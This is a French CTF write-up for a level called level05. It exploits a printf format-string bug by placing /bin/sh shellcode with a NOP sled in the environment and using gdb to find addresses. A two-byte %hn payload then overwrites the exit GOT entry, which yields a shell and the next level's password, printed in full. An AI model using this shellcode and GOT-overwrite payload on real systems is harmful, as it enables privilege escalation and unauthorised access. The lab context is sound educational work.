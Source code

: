 # LEVEL 05

On trouve un binaire level05 à la racine du répo, contenant une fonction **main**.

En traduisant le code (**source.c**), le programme commence avec un **fgets** qui lit sur stdin.  Par la suite, un **tolower** est appliqué sur la string reçu.
La string est alors affiché par un **printf** avant que le programme appele un **exit**.

**Printf** ne prennant pas d'argument, on va pouvoir exploiter sont fonctionnement avec un **SHELLCODE**.

On commence par ajouter notre **SHELLCODE** aux variables d'environnements afin de récuperer son adresse plus tard :

```bash
> export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"'`
```

Avec gdb, nous allons cherché l'adresse de notre **SHELLCODE**, on va ensuite récupérer une adresse qui pointe au milieu de notre **nop slide**.
On en profite pour récupérer l'adresse dans la **GOT** qui jump vers la fonction **exit** :

```gdb
gdb -q level05
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048444
(gdb) run
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048444 in main ()
(gdb) x/200xs environ
...
0xffffd867:      "SHELLCODE=\220\220\220\220\220....
...
(gdb) x/200sx 0xffffd867
0xffffd867:     0x4c454853      0x444f434c      0x90903d45      0x90909090
0xffffd877:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd887:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd897:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8a7:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8b7:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8c7:     0x90909090      0x90909090      0x90909090      0xc0319090
....

(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
(gdb) x 0x80497e2
0x80497e2 <exit@got.plt+2>:     0x83860804

```

> addresse dans la nop slide : 0xffffd887
> addresse du exit :  0x80497e0
> addresse du exit + 2 :  0x80497e2

Maintenant on va chercher l'offset de notre printf :

```bash
> (python -c "print 'B' * 4 + '|%08x ' * 15") | ./level05
bbbb|00000064 |f7fcfac0 |f7ec3af9 |ffffd6df |ffffd6de |00000000 |ffffffff |ffffd764 |f7fdb000 |62626262 |3830257c |257c2078 |20783830 |3830257c |257c2078
```

Notre offset apparait au niveau de nos `b` (62 en valeur hexadecimale), au 10 ème octet dans notre **stack**. On sait donc que notre première argument lu par **printf** sera à cette addresse.
On va chercher à ecrire la valeur décimale de notre nop slide au niveau de l'addresse du exit. Pour ça, on va employer la méthode du **format string attack**, **2 bytes by 2 bytes**, Donc écrire les 2 premiers bytes de l'addresse de notre  **nop slide** puis les deux suivants car il serait trop lent d'insérer  la totalité en une fois, cela nous ferais une taille de champ trop grande (+ de 4 milliard !).

```bash
(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55423c' + '%10\$hn'+ '%10104c' + '%11\$hn'"; cat) | ./level05
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

###### VICTORY